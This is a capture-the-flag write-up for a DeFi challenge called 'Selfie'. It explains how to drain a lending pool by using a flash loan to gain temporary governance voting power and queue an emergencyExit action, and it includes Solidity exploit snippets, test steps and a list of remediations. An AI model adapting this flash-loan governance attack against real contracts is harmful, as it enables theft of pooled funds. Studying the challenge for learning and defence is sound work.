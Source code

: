 # 🪞 Selfie — Flash Loans Meet Governance Exploitation

**As always: try to solve the challenge yourself before reading on. Review the contracts, debug your ideas, and only then dig into the write-up.**

---

## 📜 Challenge Overview

> A new lending pool has launched! It offers flash loans of DVT tokens. It even includes a fancy governance mechanism to control it.  
> What could go wrong, right?

You're given:
- A flash loan pool holding **1.5 million DVT tokens**
- A governance contract with a **2-day delay**
- No tokens in your balance

Your goal:  
**Drain all tokens from the pool into a designated recovery account.**

---

## 🧠 Exploit Strategy

At the heart of the exploit is a **governance system based on token snapshot voting**, and a **flash loan pool** that enables temporary control over a large token balance.

### 🔥 Core Idea: Flash Loan Voting Power

Here’s the catch:
- The governance contract checks voting power at the time of action **queueing**
- But doesn’t check whether that voting power is **held long-term**
- So if we can **temporarily hold enough tokens** via a flash loan and delegate them, we can **queue any governance action**
- After 2 days, we can **execute it**, even if our voting power is gone

That’s a textbook case of **"flash loan governance attack"**

---

## 🔍 Vulnerable Logic

Let’s look at the critical parts:

### 🏛️ Governance check

```solidity
function _hasEnoughVotes(address who) private view returns (bool) {
    uint256 balance = _votingToken.getVotes(who);
    uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
    return balance > halfTotalSupply;
}
```

✅ This check happens when queuing an action
❌ It doesn’t verify that tokens were held for any period
❌ Nor does it check whether tokens were obtained via flash loan

## ⚙️ Exploit Walkthrough

### Step 1: Flash Loan All Tokens

We request a flash loan of all 1.5M tokens from the SelfiePool.

### Step 2: Delegate Voting Power

In the same transaction, we call:
```solidity
token.delegate(address(this));
```

This gives us full voting power — but only temporarily.

### Step 3: Queue Malicious Governance Action

We craft a payload:
```solidity
abi.encodeWithSignature("emergencyExit(address)", player);
```

And queue it via:

```solidity
governance.queueAction(address(pool), 0, data);
```

This schedules a call that, after a 2-day delay, will transfer all tokens from the pool to our account.

### Step 4: Wait 2 Days

We warp forward in time using:
```solidity
vm.warp(block.timestamp + 2 days);
```

### Step 5: Execute Action

We call:
```solidity
governance.executeAction(actionId);
```

This triggers the emergencyExit(...), draining the pool to us.

## 💥 Exploit Snippet

```solidity
function onFlashLoan(...) external override returns (bytes32) {
    token.approve(address(pool), token.balanceOf(address(this)));
    token.delegate(address(this));
    actionID = governance.queueAction(address(pool), 0, data);
    return CALLBACK_SUCCESS;
}
```

Then in the main test:

```solidity
pool.flashLoan(receiver, address(token), TOKENS_IN_POOL, "");
vm.warp(2 days);
governance.executeAction(receiver.getActionID());
token.transfer(recovery, TOKENS_IN_POOL);
````

## 🧱 Root Cause

The system trusts delegated voting power at face value. By not anchoring voting to historical snapshots or token holding durations, governance becomes vulnerable to flash loan manipulation.

## ✅ Remediations

1. Use Snapshot-Based Voting
Lock in voting power at the block when the proposal is created.
2. Require Token Holding Duration
Enforce a minimum holding period before voting eligibility.
3. Prevent Flash Loan Voting
Track token transfers + flash loan detection to ignore temporary holdings.
4. Separate Governance Token from Liquidity Token
Use a different token for governance to avoid entanglement with pooled assets.

## 🧠 Final Thoughts

This is a classic flash loan governance bug — reminiscent of real-world DeFi attacks like those against Beethoven X or DAO Maker. It demonstrates why temporal ownership matters, especially in voting-based systems.

Designing secure governance requires:
- Thinking adversarially
- Considering token mobility
- Avoiding reliance on “now” as a source of truth

Flash loans continue to be a powerful tool — for both legitimate use and for exploitation.

Stay sharp. 👀

---

